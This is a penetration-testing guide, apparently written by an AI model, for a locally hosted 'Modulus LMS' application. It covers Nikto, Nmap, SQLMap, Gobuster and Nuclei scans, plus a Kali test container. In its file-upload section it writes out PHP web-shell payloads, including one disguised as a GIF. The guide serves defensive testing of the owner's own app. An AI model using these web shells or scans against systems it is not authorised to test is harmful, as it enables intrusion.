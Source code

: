 # Advanced Security Testing Suite for Modulus LMS

## Quick Setup Commands

### 1. OWASP ZAP (Recommended Next Step)
```powershell
# Download and install ZAP
# Visit: https://www.zaproxy.org/download/
# Or use Chocolatey:
choco install zap

# Run ZAP against your application
# Start ZAP GUI and configure proxy to 127.0.0.1:8080
# Then browse your application through the proxy
```

### 2. Nikto Web Server Scanner
```powershell
# Using Docker (easiest)
docker run --rm sullo/nikto -h http://127.0.0.1:3000
docker run --rm sullo/nikto -h http://127.0.0.1:3001

# Advanced scan with more tests
docker run --rm sullo/nikto -h http://127.0.0.1:3000 -C all -Format htm -output nikto-report.html
```

### 3. Nmap Network Scanning
```powershell
# Install Nmap
choco install nmap

# Basic port scan
nmap -sS 127.0.0.1

# Service version detection
nmap -sV -p 3000,3001 127.0.0.1

# Comprehensive scan with scripts
nmap -sC -sV -O 127.0.0.1
```

### 4. SQLMap for SQL Injection Testing
```powershell
# Install SQLMap
pip install sqlmap

# Test login endpoint for SQL injection
python -m sqlmap -u "http://127.0.0.1:3001/api/auth/login" --data="email=test@test.com&password=test" --method=POST

# Test with cookies (if you have authenticated session)
python -m sqlmap -u "http://127.0.0.1:3001/api/courses" --cookie="token=your_jwt_token_here"
```

### 5. Gobuster Directory Enumeration
```powershell
# Download from: https://github.com/OJ/gobuster/releases
# Create a wordlist or download one
# Common wordlists: SecLists (https://github.com/danielmiessler/SecLists)

# Directory brute forcing
.\gobuster.exe dir -u http://127.0.0.1:3000 -w common-directories.txt
.\gobuster.exe dir -u http://127.0.0.1:3001 -w api-endpoints.txt

# DNS subdomain enumeration (if you have a domain)
.\gobuster.exe dns -d yourdomain.com -w subdomains.txt
```

## Docker-Based Security Testing Environment

### Create a Security Testing Container
```dockerfile
# Dockerfile.security-testing
FROM kalilinux/kali-rolling

RUN apt-get update && apt-get install -y \
    nikto \
    nmap \
    sqlmap \
    gobuster \
    dirb \
    wfuzz \
    whatweb \
    && rm -rf /var/lib/apt/lists/*

WORKDIR /security-tests
```

```powershell
# Build and run security testing container
docker build -t modulus-security-testing -f Dockerfile.security-testing .
docker run -it --network="host" modulus-security-testing bash

# Inside container, run various tools
nikto -h http://127.0.0.1:3000
nmap -sV 127.0.0.1
sqlmap -u "http://127.0.0.1:3001/api/login" --data="email=test&password=test"
```

## Specialized Tests for Your Application

### 1. JWT Token Security Testing
```powershell
# Test JWT implementation with jwt_tool
pip install pyjwt
python -c "
import jwt
token = 'your_jwt_token_here'
print('JWT Header:', jwt.get_unverified_header(token))
print('JWT Payload:', jwt.decode(token, options={'verify_signature': False}))
"
```

### 2. File Upload Security Testing
```powershell
# Test file upload endpoints with malicious files
# Create test files with various extensions and payloads
echo "<?php system(\$_GET['cmd']); ?>" > test.php
echo "<?php system(\$_GET['cmd']); ?>" > test.php.txt
echo "GIF89a<?php system(\$_GET['cmd']); ?>" > test.gif

# Use curl to test uploads
curl -X POST -F "file=@test.php" http://127.0.0.1:3001/api/upload
curl -X POST -F "file=@test.gif" http://127.0.0.1:3001/api/upload
```

### 3. CORS Testing
```powershell
# Test CORS configuration
curl -H "Origin: https://malicious-site.com" -v http://127.0.0.1:3001/api/courses
curl -H "Origin: https://evil.com" -X OPTIONS -v http://127.0.0.1:3001/api/auth/login
```

### 4. Rate Limiting Testing (Re-enable first)
```powershell
# Test rate limiting with multiple requests
for ($i=1; $i -le 100; $i++) {
    Invoke-RestMethod -Uri "http://127.0.0.1:3001/api/courses" -Method GET
    Write-Host "Request $i completed"
}
```

## Advanced Testing Scenarios

### 1. Session Management Testing
- Test session fixation
- Test session timeout
- Test concurrent sessions
- Test session invalidation on logout

### 2. Authentication Bypass Testing
- Test parameter pollution
- Test HTTP method tampering
- Test authorization bypass
- Test privilege escalation

### 3. Input Validation Testing
- Test all form inputs for XSS
- Test file upload restrictions
- Test SQL injection in all parameters
- Test NoSQL injection (if using MongoDB)

## Automated Security Pipeline

### Create a Security Test Script
```powershell
# security-test-suite.ps1
Write-Host "Starting Comprehensive Security Tests..."

# 1. Nuclei scan
Write-Host "Running Nuclei scan..."
.\nuclei.exe -u http://127.0.0.1:3000 -u http://127.0.0.1:3001 -severity critical,high,medium

# 2. Nikto scan
Write-Host "Running Nikto scan..."
docker run --rm sullo/nikto -h http://127.0.0.1:3000 -Format txt -output nikto-frontend.txt
docker run --rm sullo/nikto -h http://127.0.0.1:3001 -Format txt -output nikto-backend.txt

# 3. Nmap scan
Write-Host "Running Nmap scan..."
nmap -sV -p 3000,3001 127.0.0.1 -oN nmap-results.txt

# 4. Custom API tests
Write-Host "Running custom API security tests..."
# Add your custom tests here

Write-Host "Security tests completed! Check output files for results."
```

## Next Steps Recommendations

1. **Start with OWASP ZAP** - Most comprehensive and user-friendly
2. **Add Nikto** - Quick web server vulnerability check
3. **Implement SQLMap testing** - Critical for database security
4. **Set up Burp Suite** - For manual penetration testing
5. **Create automated pipeline** - Integrate multiple tools

Would you like me to help you set up any of these specific tools or create automated test scripts for your Modulus LMS application?
